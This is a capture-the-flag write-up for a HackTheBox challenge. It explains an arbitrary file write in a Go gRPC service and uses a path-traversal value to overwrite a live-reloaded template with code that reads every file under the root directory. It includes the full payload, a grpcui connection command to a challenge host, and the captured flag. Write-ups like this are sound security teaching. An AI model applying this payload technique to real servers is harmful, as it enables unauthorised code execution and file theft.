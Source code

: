 # Testimonial - Easy

In this challenge, participants are provided with a website and the Golang source code. 


## Solution

Actually the vulnerability lies in GRPC service. The GRPC service vulnerable to Arbitrary File Write within this code:

> /challenge/grpc.go
> ```go
> func (s *server) SubmitTestimonial(ctx context.Context, req *pb.TestimonialSubmission) (*pb.GenericReply, error) {
> 	if req.Customer == "" {
> 		return nil, errors.New("Name is required")
> 	}
> 	if req.Testimonial == "" {
> 		return nil, errors.New("Content is required")
> 	}
> 
> 	err := os.WriteFile(fmt.Sprintf("public/testimonials/%s", req.Customer), []byte(req.Testimonial), 0644)
> 	if err != nil {
> 		return nil, err
> 	}
> 
> 	return &pb.GenericReply{Message: "Testimonial submitted successfully"}, nil
> }
> ```

The `SubmitTestimonial` function save the inputted testimonial in a file with filename = inputted customer. However the **customer** input is passed into `os.WriteFile` function without sanitization, so we can input with Path Traversal payload to climb up the directory and write the content into our file location that we want.

In other hand, challenge using `air` to run the Golang application. `air` is a tool to run the Golang application with Live reload feature, everything that has been changed in the Go source code, `air` automatically re-build and re-run the Go application.
> /build-docker.sh
> ```bash
> #!/bin/sh
> 
> # Change flag name
> mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt
> 
> # Secure entrypoint
> chmod 600 /entrypoint.sh
> 
> # Start application
> air
> ```

With this, we can overwrite one of the Golang source code with our Golang code to perform Code Execution and get a flag.


## Proof of Concept
1. Connect to grpc services with `grpcui`
   ```
   ./grpcui -plaintext -proto challenge/pb/ptypes.proto 83.136.253.78:37612
   ```
   ![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/14c042ab-07c8-4ec9-992f-282eb5789289)

2. Overwrite the Template file and change the functionality to read all files in `/` directory.
   ```
   Customer: ../../../../challenge/view/home/index.templ

   Testimonial:
   package home

    import (
    	"htbchal/view/layout"
    	"io/fs"	
    	"fmt"
    	"os"
    )
    
    templ Index() {
    	@layout.App(true) {
    <nav class="navbar navbar-expand-lg navbar-dark bg-black">
      <div class="container-fluid">
        <a class="navbar-brand" href="/">The Fray</a>
        <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav"
                aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
            <span class="navbar-toggler-icon"></span>
        </button>
        <div class="collapse navbar-collapse" id="navbarNav">
            <ul class="navbar-nav ml-auto">
                <li class="nav-item active">
                    <a class="nav-link" href="/">Home</a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" href="javascript:void();">Factions</a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" href="javascript:void();">Trials</a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" href="javascript:void();">Contact</a>
                </li>
            </ul>
        </div>
      </div>
    </nav>
    
    <div class="container">
      <section class="jumbotron text-center">
          <div class="container mt-5">
              <h1 class="display-4">Welcome to The Fray</h1>
              <p class="lead">Assemble your faction and prove you're the last one standing!</p>
              <a href="javascript:void();" class="btn btn-primary btn-lg">Get Started</a>
          </div>
      </section>
    
      <section class="container mt-5">
          <h2 class="text-center mb-4">What Others Say</h2>
          <div class="row">
              @Testimonials()
          </div>
      </section>
    
    
      <div class="row mt-5 mb-5">
        <div class="col-md">
          <h2 class="text-center mb-4">Submit Your Testimonial</h2>
          <form method="get" action="/">
            <div class="form-group">
              <label class="mt-2" for="testimonialText">Your Testimonial</label>
              <textarea class="form-control mt-2" id="testimonialText" rows="3" name="testimonial"></textarea>
            </div>
            <div class="form-group">
              <label class="mt-2" for="testifierName">Your Name</label>
              <input type="text" class="form-control mt-2" id="testifierName" name="customer"/>
            </div>
            <button type="submit" class="btn btn-primary mt-4">Submit Testimonial</button>
          </form>
        </div>
      </div>
    </div>
    
    <footer class="bg-black text-white text-center py-3">
        <p>&copy; 2024 The Fray. All Rights Reserved.</p>
    </footer>
    	}
    }
    
    func GetTestimonials() []string {
    	fsys := os.DirFS("../../../../../")	
    	files, err := fs.ReadDir(fsys, ".")
    	if err != nil {
    		return []string{fmt.Sprintf("Error reading testimonials: %v", err)}
    	}
    	var res []string
    	for _, file := range files {
    		fileContent, _ := fs.ReadFile(fsys, file.Name())
    		res = append(res, string(fileContent))		
    	}
    	return res
    }
    
    templ Testimonials() {
      for _, item := range GetTestimonials() {
        <div class="col-md-4">
            <div class="card mb-4">
                <div class="card-body">
                    <p class="card-text">"{item}"</p>
                    <p class="text-muted">- Anonymous Testifier</p>
                </div>
            </div>
        </div>
      }
    }```

![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/0c94397b-f635-4c83-80ae-69fc8856c464)
Submitted successfully.
![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/bc56dcf0-d10c-4a5e-9c5c-c9031727157d)
Navigating to home website to retrieve the flag.
![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/e3dc72bb-0355-42a6-bd9f-0c7ee8463016)


## Flag
HTB{w34kly_t35t3d_t3mplate5}
